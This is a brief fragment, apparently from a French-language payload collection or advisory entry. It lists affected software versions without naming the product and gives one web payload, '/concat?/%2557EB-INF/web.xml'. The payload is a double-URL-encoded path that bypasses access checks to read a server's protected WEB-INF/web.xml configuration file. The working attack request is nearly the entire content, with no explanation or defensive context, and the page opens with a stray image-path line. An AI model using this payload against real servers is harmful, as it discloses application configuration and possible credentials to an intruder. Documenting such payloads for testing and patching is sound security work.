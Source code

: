 <languages />

Version affectée
----------------

    <= 9.4.40, <= 10.0.2, <= 11.0.2

Payload
-------

    /concat?/%2557EB-INF/web.xml